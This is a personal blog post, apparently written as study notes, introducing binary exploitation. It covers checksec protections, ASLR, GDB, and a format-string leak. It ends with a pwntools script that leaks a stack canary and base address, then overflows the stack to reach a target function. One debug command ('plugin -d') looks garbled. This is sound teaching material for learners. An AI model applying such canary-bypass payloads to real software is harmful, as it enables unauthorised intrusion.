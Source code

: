 ```yaml
---
title: BINARY EXPLOITATION
date: 2023-05-06 01:30:40 +/-TTTT
categories: [learning, rev]
tags: [learning]     # TAG names should always be lowercase
---
```


Binary Exploitation is the process of finding vulnerabilities in the binary file.

# Prerequisites

This post uses “rizin” for dynamic analysis.
And “pwntools” python package is useful for binary exploitation.

# Investigation
* Basic

```
file ./example
strings ./example

objdump -d ./example
# -M: type
objdump -M intel -d ./example
```

# Security Properties

First check the executable properties.

```
checksec --file=./example
```

RELRO (stands for Relocation Read-Only)

* Partial RELRO - We can read/write the global offset table.

* Full RELRO - We can only read the global offset table. So we cannot overwrite GOT.

STACK CANARY

* No canary found - It’s vulnerable to buffer overflow.

NX (stands for Non-eXecutable segments)

* NX enabled - We cannot execute custom shellcode from the stack.

PIE (stands for Position Independent Executable)

* No PIE - The binary always starts at same address.


# ASLR (Address Space Layout Randomization) in Machine

ASLR is a security technique involved in preventing exploitation of memory corruption vulnerabilities.

```
cat /proc/sys/kernel/randomize_va_space
2
```

* 0 - The address space is NOT randomized.
* 1 - The address space is randomized.
* 2 - The address space is randomized, and data segment as well.

# GDB Introductions
GDB, or the GNU Debugger, is the standard debugger of Linux systems developed by the GNU Project. It has been ported to many systems and supports the programming languages C, C++, Objective-C, FORTRAN, Java, and many more.

GDB provides us with the usual traceability features like breakpoints or stack trace output and allows us to intervene in the execution of programs. It also allows us, for example, to manipulate the variables of the application or to call functions independently of the normal execution of the program.

We use GNU Debugger (GDB) to view the created binary on the assembler level. Once we have executed the binary with GDB, we can disassemble the program's main function.


* Start Debug

```
# Change permission for debugging
chmod +x example

# -d: Debug mode
plugin -d example
```

# Format String (Pointer)

```
./example

Type something:
>> %2$p
The result is 0x555a18ae6365
```

# Bypass Canary Protection

```python
from pwn import *
import re

context.update(arch="amd64", os="linux")

filepath = "./example"
elf = context.binary = ELF(filepath)

p = process(filepath) # p = remote('example.com', '1337') for remote connection

# We need to find the stack canary. This address ends with "00".
# To find it, execute p.sendline(b"%p %p %p %p ...").
p.sendline(b"%10$p %13$p")
p.recvuntil(b"result: ")
leaked = p.recvline().split()
print(leaked)
base = int(leaked[0], 16) - 0xa90
canary = int(leaked[1], 16)
elf.address = base

payload = b"A"*24
payload += p64(canary)
payload += b"B"*8
payload += p64(base + 0x6fe)
payload += p64(elf.sym["target_func"])

p.sendline(payload)
p.interactive()
```
